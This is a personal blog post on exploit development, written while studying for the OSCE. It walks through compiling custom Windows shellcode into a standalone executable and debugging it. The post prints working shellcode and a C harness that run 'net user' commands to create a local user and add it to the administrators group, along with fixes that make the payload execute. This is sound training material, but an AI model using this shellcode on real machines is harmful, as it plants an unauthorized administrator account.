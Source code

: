 ```yaml
---
title: "Compiling and Running Custom Shellcode"
excerpt_separator: "<!--more-->"
categories:
  - Blog
tags:
  - exploit development
---
```


![](https://media-exp1.licdn.com/dms/image/C4E12AQG-nZczAkJF0w/article-cover_image-shrink_423_752/0/1580009718755?e=1623888000&v=beta&t=BXEaYRoS7f07MBGSWoZqLQi42tWFkPohkgNY7_-7ffM)

While studying for the Offensive Security Certified Expert (OSCE), I took some time to practice writing custom shellcode and read up on how certain Windows API calls can be leveraged to execute your shellcode. I wanted to take it a step further and actually run my shellcode as a stand-alone binary apart from running it in an exploit for debugging purposes.

This post aims to provide a quick overview of my findings and perhaps help other aspiring exploit developers out there.

In this particular example, I used the system() function found in Windows msvcrt.dll. You can read more about that [here](http://www.gosecure.it/blog/art/452/sec/create-a-custom-shellcode-using-system-function/). The shellcode I chose to run creates a new user and adds them to the administrator's group. Below is the breakdown of the shellcode.

![No alt text provided for this image](https://media-exp1.licdn.com/dms/image/C4E12AQFGukOblq6W-g/article-inline_image-shrink_1000_1488/0/1580004107306?e=1623888000&v=beta&t=kuWjkSCWVlEUnzS74Wy7eV8I-3yNhwRT-t129G9sVNM)

For the sake of brevity, I won't go into detail about how I came up with this shellcode. There are plenty of resources that cover custom shell coding. [This](https://www.fuzzysecurity.com/tutorials/expDev/6.html) post helped me quite a bit.

The next step was placing my shellcode in a C program. After a bit of searching, I found this format thanks to this [article](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html).

```c
#include <stdio.h>


unsigned char shellcode\[\] = "\\x31\\xc0"
"\\x50"
"\\x68\\x2f\\x61\\x64\\x64"
"\\x68\\x62\\x65\\x6c\\x20"
"\\x68\\x73\\x20\\x72\\x6f"	// This shellcode 
"\\x68\\x61\\x74\\x6f\\x72"  // runs the following 
"\\x68\\x69\\x73\\x74\\x72"  // command...
"\\x68\\x64\\x6d\\x69\\x6e"  // net user robel robel /add & 
"\\x68\\x75\\x70\\x20\\x61"  // net localgroup administrators robel /add
"\\x68\\x6c\\x67\\x72\\x6f"
"\\x68\\x6c\\x6f\\x63\\x61"
"\\x68\\x6e\\x65\\x74\\x20"
"\\x68\\x64\\x20\\x26\\x20"
"\\x68\\x20\\x2f\\x61\\x64"
"\\x68\\x6f\\x62\\x65\\x6c"
"\\x68\\x65\\x6c\\x20\\x72"
"\\x68\\x20\\x72\\x6f\\x62"
"\\x68\\x75\\x73\\x65\\x72"
"\\x68\\x6e\\x65\\x74\\x20"
"\\x89\\xE0"
"\\x6A\\x01"
"\\x50"
"\\xBB\\xc7\\x93\\xc2\\x77"  // Location of system() function call (update this)
"\\xFF\\xD3";




int main()
{
	((void(\*)())shellcode)();
	return 0;
}
```

Pretty straight forward up until this point right? All I needed to do now was compile this into a PE file and I'm good. Upon compiling this code in Visual Studio 2019, everything was successful up until running it on Windows 7...

![No alt text provided for this image](https://media-exp1.licdn.com/dms/image/C4E12AQGarq9DOXLKoA/article-inline_image-shrink_1000_1488/0/1580072974160?e=1623888000&v=beta&t=MFP80SWq-XfsR2x7Pf2wAcVEo1TY1NIAJQmU9FvuBuo)

Naturally, I ran the binary in a debugger to see what was going on. There were two things I discovered. First, there was an access violation once the program reached the beginning of my shellcode routine.

![No alt text provided for this image](https://media-exp1.licdn.com/dms/image/C4E12AQFNRKM2h8Lihw/article-inline_image-shrink_1000_1488/0/1580005546938?e=1623888000&v=beta&t=WDOJamt6hHAEtXtKIHIdYWIl1yBtqijw0vgiPkfA2Tw)

This was easily fixed by modifying the .data section of the PE file to be executable. The next issue lies in the call to the system() function. Even if you have the correct address of where system() is located in memory, in this case, 0x7596B177 (NOTE: This address will change from boot to boot due to ASLR), the program crashes because the memory does not exist within the program. Why? Checking the imported modules reveals that msvcrt.dll is not loaded.

![No alt text provided for this image](https://media-exp1.licdn.com/dms/image/C4E12AQEhDNZeeMpY7g/article-inline_image-shrink_1000_1488/0/1580006035757?e=1623888000&v=beta&t=LwSPoS0pa1gkE-fIPMrLT5MOahGphw_eOZRkk0nBxIU)

Remember, the system() function resides within msvcrt.dll. If it isn't loaded when the program is running, it cannot locate the pointer to system() in memory. I am not entirely sure why Visual Studio did not include the .DLL but my guess would have something to do with outdated and/or somewhat obsolete .DLLs.

So, going back to the code, I decided I needed to find a different compiler. After a bit of research, I decided to go with [MinGW](http://www.mingw.org/). From the command line, I ran the following...

```console
C:\\MinGW\\bin>mingw32-gcc.exe addUser.c -o adduser.exe
```

After opening the binary in a debugger, I can see that this time msvcrt.dll was imported.

![No alt text provided for this image](https://media-exp1.licdn.com/dms/image/C4E12AQEJfUTmpQT3Ug/article-inline_image-shrink_1000_1488/0/1580006787863?e=1623888000&v=beta&t=S0YppN1yqPCBugVkJX2AP6eZ2uROs9N3fQysiyOjAGU)

Setting a breakpoint on the address of system() in msvcrt.dll (again, this varies from boot to boot) I ran my program and examined the call stack when it hit the breakpoint. As expected, just before a function call was made to system(), Olly Dbg recognized the memory location of system() and the pointer address was successfully added to the EBX register.

(0040407D   MOV EBX, msvcrt.system)

![No alt text provided for this image](https://media-exp1.licdn.com/dms/image/C4E12AQEls0YMpEyCEg/article-inline_image-shrink_1000_1488/0/1580007765302?e=1623888000&v=beta&t=Ios6_FsBz8yCwlVkkdT-EsqEpFMTJpMCsT2AP9qXj8E)

Once I let the program continue to run, the user, robel, was created and added to the administrator's group as expected.

![No alt text provided for this image](https://media-exp1.licdn.com/dms/image/C4E12AQH134cXseZKcg/article-inline_image-shrink_1000_1488/0/1580008160466?e=1623888000&v=beta&t=Km2NPjq1m_HRQjK5EZ4mRr2nWnW9Uh_s6NkaORRMggw)

Notice that the program still crashes. I imagine it is due to a lack of an exit() function after my routine runs but I will save that for another time.

So what did I learn?

1.  Ensure your PE file's sections are executable. An access violation will let you know real quick.
2.  Take note of which compiler you are using when developing a standalone PE file. Not all of them work the same. Your binary might not run on different Windows OS versions.
3.  Validate the necessary imported modules for your shellcode to run in a debugger or PE examiner of your choice.

Please comment and provide feedback if you want to add anything or found this useful.
